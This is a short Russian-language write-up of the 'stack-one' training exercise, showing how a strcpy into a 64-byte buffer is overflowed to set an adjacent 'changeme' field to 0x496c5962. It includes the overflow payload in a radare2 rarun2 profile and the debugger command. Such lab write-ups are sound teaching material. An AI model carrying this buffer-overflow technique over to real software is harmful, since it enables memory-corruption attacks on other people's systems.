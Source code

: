 Цель задания - изменить значение поля "volatile int changeme" структуры locals.

Структура имеет вид
```  
struct {
  char buffer[64];
  volatile int changeme;
} locals;
```

Уязвимое место в программе 
`strcpy(locals.buffer, argv[1]);`

Это значит, что необходимо ввести 64 байт мусора и от 1 до 4 байт не 0 значение. (т.к. поле имеет размер int (4 байта))

Для выполнения задания, необходимо заполнить поле произвольным значением отличным от 0 
`locals.changeme == 0x496c5962`

Пишем профиль для rr2
```
#!/usr/bin/rarun2
arg1=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x62\x59\x6c\x49
```

Запускаем радар2
r2 -R profileSO.rr2 -d stack-one

Состояние стека до\
![alt text](../images/stack-one/1.png)

После\
![alt text](../images/stack-one/2.png)

Код проверки\
![alt text](../images/stack-one/3.png)

Содержимое региста eax\
![alt text](../images/stack-one/4.png)

Победа\
![alt text](../images/stack-one/5.png)
